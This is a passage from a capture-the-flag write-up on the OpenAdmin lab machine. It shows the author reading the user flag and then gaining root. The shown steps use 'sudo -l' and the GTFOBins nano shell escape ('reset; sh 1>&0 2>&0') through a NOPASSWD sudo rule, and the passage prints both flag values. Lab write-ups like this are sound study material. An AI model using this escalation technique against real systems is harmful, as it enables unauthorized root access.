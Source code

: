 Let's print the output of `user.txt`:

```bash
joanna@openadmin:~$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f
joanna@openadmin:~$
```

Awesome, now we just need the `root.txt` flag

## Root

Getting root access within this box is quite easy. Let's try the same privilege escalation technics we tried with `jimmy` but now with `joanna`'s account:

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:
    /usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$
```

Looks like we can run `sudo` on nano while reading the file `/opt/priv` without a password. Let's go a head attempt this privilege escalation.

```bash
GNU nano 2.9.3        /opt/priv 
```

Looks like we can run this file as root, but the file is empty. Let's look at GTFOBins to see if we can leverage a privilege escalation from nano as root.

The following code can be used to break out from restricted environments by spawning an interactive system shell.

```bash
nano
^R^X
reset; sh 1>&0 2>&0
```

Let's try this code on OpenAdmin:

```bash
Command to execute: reset; sh 1>&0 2>&0#
# whoami
root
#
# cat /root/root.txt
2f907ed450b361b2c2bf4e8795d5b561
#
```

YES! We got the `root.txt` flag. Now we can review what we learned.
